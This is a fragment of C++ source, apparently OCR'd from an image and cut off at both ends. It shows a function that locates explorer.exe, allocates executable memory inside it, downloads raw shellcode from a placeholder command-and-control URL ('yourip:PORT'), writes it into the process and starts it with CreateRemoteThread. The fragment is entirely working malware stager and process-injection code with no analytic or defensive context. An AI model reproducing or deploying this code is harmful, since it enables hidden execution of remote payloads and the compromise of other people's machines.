 ```cpp
    }
}

int downloadAndExecute() {
    DWORD pid = GetExplorerPID();
    if (pid == 0) {
        return 0;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        return 0;
    }

    SIZE_T dwSize = 510;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);
    if (memAddr == NULL) {
        CloseHandle(hProcess);
        return 0;
    }

    const char* c2URL = "http://yourip:PORT/index.raw";
    IStream* stream;
    if (FAILED(URLOpenBlockingStreamA(NULL, c2URL, &stream, 0, NULL))) {
        CloseHandle(hProcess);
        return 0;
    }

    char buff[510];
    unsigned long bytesRead;
    SIZE_T bytesOut;
    string s;

    while (true) {
        if (FAILED(stream->Read(buff, sizeof(buff), &bytesRead))) {
            break;
        }
        if (bytesRead == 0) {
            break;
        }
        s.append(buff, bytesRead);
    }

    if (!WriteProcessMemory(hProcess, memAddr, s.c_str(), s.size(), &bytesOut)) {
        stream->Release();
        CloseHandle(hProcess);
        return 0;
    }

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)memAddr, NULL, 0, NULL);
    if (hThread != NULL) {
        CloseHandle(hThread);
    }

    stream->Release();
    CloseHandle(hProcess);
    return 0;
}

int main() {
```